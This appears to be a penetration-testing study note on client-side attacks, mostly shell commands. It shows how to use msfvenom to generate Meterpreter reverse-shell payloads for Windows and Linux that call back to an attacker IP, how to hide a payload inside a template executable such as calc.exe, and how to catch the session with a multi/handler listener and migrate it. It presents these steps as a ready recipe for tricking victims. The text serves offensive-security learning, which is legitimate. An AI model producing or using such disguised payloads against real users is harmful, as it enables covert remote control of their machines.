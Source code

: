 <a id=5></a>
# Client-Side Attacks

Client-side attacks is a vector that involves coercing a client to execute a malicious file on their system
that will give us a connection to the machine.

This attack uses several social-engineering techniques to be useful and prosperous. It can be very simple to trick
someone into opening a portable executable (PE).

<a id=5.1></a>
## Generating payloads with MsfVenom

MsfVenom is a tool that allows us to create payloads. It can use templates (already existing executable files
that are injected with malicious code) or bare payloads.

This payloads are used to generate a connection between the attacker and the target. It may be a bind connection
or a reverse connection. It will depend on the situation and what we can do.

```bash
$ msfvenom -h
# check the flags...
$ msfvenom --list payloads
# get the list of all the available payloads. we will focus on meterpreter payloads.
$ msfvenom --list formats
# get the list of all the available formats.
$ msfvenom {-a [ARCHITECTURE]} -p [PAYLOAD] -f [FORMAT] -o [OUTPUT_FILE] LHOST=[ATTACKER_IP] LPORT=[ATTACKER_PORT]
# if the payload is meterpreter/reverse... its a staged payload. but if it is meterpreter_reverse_tcp, its inline.
$ msfvenom -a x86 -p windows/meterpreter/reverse_tcp -f exe -o payload.exe  LHOST=192.168.1.100 LPORT=9999
# windows 32bit payload
$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[ATTACKER_IP] LPORT=[ATTACKER_PORT] -f elf -o payload
# linux 32bit payload
$ msfvenom -x calc.exe -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=[ATTACKER_IP] LPORT=[ATTACKER_PORT] -f exe -o funny_calc.exe
# uses a template (executable file) to hide the payload. the calc.exe won't work though.
$ msfvenom -x calc.exe -k -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=[ATTACKER_IP] LPORT=[ATTACKER_PORT] -f exe -o funny_calc.exe
# the -k flag will try to preserver the original functionality of the template file.
# ok, the payload is done... now what?
$ sudo systemctl start postgresql && msfdb init && msfconsole
msf6 > use multi/handler
msf6 exploit(multi/handler) > set payload [PAYLOAD]
msf6 exploit(multi/handler) > set LHOST [ATTACKER_IP]
msf6 exploit(multi/handler) > set LPORT [ATTACKER_PORT]
msf6 exploit(multi/handler) > run
# execute the payload and you'll have a meterpreter session!!
# if you're using a template, its recommended to do the following.
meterpreter >  run post/windows/manage/migrate 
# we wont see this module right now, but later we might... :)
```
